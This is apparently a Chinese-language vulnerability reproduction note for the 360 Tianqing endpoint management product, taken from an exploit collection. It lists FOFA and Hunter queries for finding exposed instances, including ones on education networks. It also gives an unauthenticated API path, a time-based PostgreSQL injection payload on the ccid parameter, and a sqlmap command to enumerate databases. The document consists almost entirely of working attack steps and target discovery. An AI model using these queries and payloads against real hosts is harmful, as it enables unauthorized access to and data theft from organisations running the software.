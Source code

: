 ## 360天擎 - 未授权与sql注入

## FOFA语法
```title="360新天擎"```


## 鹰图
```web.title="360新天擎"&& ip.isp="教育"```

## 漏洞复现

### 未授权漏洞
```路由后拼接/api/dbstat/gettablessize```
![](../.../../assets/20231018183944.png)

### sql注入漏洞
比较推荐的方式先测试是否存在数据库信息泄露，存在的话大概率存在SQL注入
```
路由后拼接/api/dp/rptsvcsyncpoint?ccid=1

{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1';SELECT PG_SLEEP(5)--
```
![](../.../../assets/20231018184057.png)

## sqlmap
python .\sqlmap.py --batch -dbs -u https://{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1
